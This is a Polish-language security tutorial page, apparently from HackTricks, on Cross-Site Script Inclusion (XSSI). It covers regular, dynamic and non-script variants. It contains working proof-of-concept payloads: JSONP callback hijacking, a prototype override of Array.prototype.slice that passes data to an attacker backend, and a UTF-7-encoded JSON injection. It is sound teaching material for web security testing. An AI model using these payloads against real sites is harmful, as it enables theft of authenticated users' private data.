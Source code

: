 # XSSI (Cross-Site Script Inclusion)

{{#include ../banners/hacktricks-training.md}}

## Podstawowe informacje

**Cross-Site Script Inclusion (XSSI)** to luka, która wynika z natury tagu `script` w HTML. W przeciwieństwie do większości zasobów, które podlegają **Same-Origin Policy (SOP)**, skrypty mogą być dołączane z różnych domen. To zachowanie ma na celu ułatwienie korzystania z bibliotek i innych zasobów hostowanych na różnych serwerach, ale wprowadza również potencjalne ryzyko bezpieczeństwa.

### Kluczowe cechy **XSSI**:

- **Obejście SOP**: Skrypty są zwolnione z **Same-Origin Policy**, co pozwala na ich dołączanie między domenami.
- **Ekspozycja danych**: Atakujący może wykorzystać to zachowanie do odczytu danych załadowanych za pomocą tagu `script`.
- **Wpływ na dynamiczny JavaScript/JSONP**: **XSSI** jest szczególnie istotne dla dynamicznego JavaScript lub **JSON with Padding (JSONP)**. Technologie te często wykorzystują informacje "ambient-authority" (takie jak ciasteczka) do uwierzytelniania. Gdy żądanie skryptu jest wysyłane do innego hosta, te dane uwierzytelniające (np. ciasteczka) są automatycznie dołączane do żądania.
- **Wycieki tokenów uwierzytelniających**: Jeśli atakujący może oszukać przeglądarkę użytkownika, aby zażądała skryptu z serwera, który kontroluje, może uzyskać dostęp do wrażliwych informacji zawartych w tych żądaniach.

### Typy

1. **Statyczny JavaScript** - To reprezentuje konwencjonalną formę XSSI.
2. **Statyczny JavaScript z uwierzytelnianiem** - Ten typ jest odmienny, ponieważ wymaga uwierzytelnienia do uzyskania dostępu.
3. **Dynamiczny JavaScript** - Dotyczy JavaScriptu, który dynamicznie generuje treść.
4. **Nie-JavaScript** - Odnosi się do luk, które nie dotyczą bezpośrednio JavaScriptu.

**Poniższe informacje są podsumowaniem [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Sprawdź to, aby uzyskać dalsze szczegóły.

### Regularne XSSI

W tym podejściu prywatne informacje są osadzone w ogólnodostępnym pliku JavaScript. Atakujący mogą identyfikować te pliki za pomocą metod takich jak odczyt plików, wyszukiwanie słów kluczowych lub wyrażenia regularne. Po zlokalizowaniu skryptu zawierającego prywatne informacje można go dołączyć do złośliwej treści, co umożliwia nieautoryzowany dostęp do wrażliwych danych. Przykład techniki wykorzystania pokazano poniżej:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
alert(JSON.stringify(confidential_keys[0]))
</script>
```
### Dynamic-JavaScript-based-XSSI i Authenticated-JavaScript-XSSI

Te typy ataków XSSI polegają na dynamicznym dodawaniu poufnych informacji do skryptu w odpowiedzi na żądanie użytkownika. Wykrywanie można przeprowadzić, wysyłając żądania z i bez ciasteczek oraz porównując odpowiedzi. Jeśli informacje się różnią, może to wskazywać na obecność poufnych danych. Proces ten można zautomatyzować za pomocą narzędzi takich jak [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) rozszerzenie Burp.

Jeśli poufne dane są przechowywane w zmiennej globalnej, można je wykorzystać za pomocą podobnych metod jak w Regular XSSI. Jednak jeśli poufne dane są zawarte w odpowiedzi JSONP, atakujący mogą przejąć funkcję zwrotną, aby uzyskać te informacje. Można to zrobić, manipulując obiektami globalnymi lub ustawiając funkcję do wykonania przez odpowiedź JSONP, jak pokazano poniżej:
```html
<script>
var angular = function () {
return 1
}
angular.callbacks = function () {
return 1
}
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script
src="https://site.tld/p?jsonp=angular.callbacks._7"
type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Dla zmiennych, które nie znajdują się w globalnej przestrzeni nazw, _manipulacja prototypem_ może czasami być wykorzystana. Technika ta wykorzystuje projekt JavaScript, w którym interpretacja kodu polega na przeszukiwaniu łańcucha prototypów w celu zlokalizowania wywoływanej właściwości. Poprzez nadpisanie niektórych funkcji, takich jak `Array`'s `slice`, napastnicy mogą uzyskać dostęp do zmiennych nieglobalnych i je ujawniać:
```javascript
Array.prototype.slice = function () {
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this)
}
```
Dalsze szczegóły dotyczące wektorów ataku można znaleźć w pracy badacza bezpieczeństwa [Sebastiana Lekiesa](https://twitter.com/slekies), który prowadzi listę [wektorów](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI

Badania Takeshiego Terady wprowadzają inną formę XSSI, w której pliki Non-Script, takie jak CSV, są wyciekane między źródłami poprzez włączenie ich jako źródła w tagu `script`. Historyczne przypadki XSSI, takie jak atak Jeremiah Grossmana z 2006 roku na odczytanie całej książki adresowej Google oraz wyciek danych JSON Joe Walkera z 2007 roku, podkreślają powagę tych zagrożeń. Dodatkowo, Gareth Heyes opisuje wariant ataku z wykorzystaniem kodowania UTF-7 w JSON, aby uciec od formatu JSON i wykonać skrypty, skuteczny w niektórych przeglądarkach:
```javascript
;[
{
friend: "luke",
email:
"+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
},
]
```

```html
<script
src="http://site.tld/json-utf7.json"
type="text/javascript"
charset="UTF-7"></script>
```
{{#include ../banners/hacktricks-training.md}}
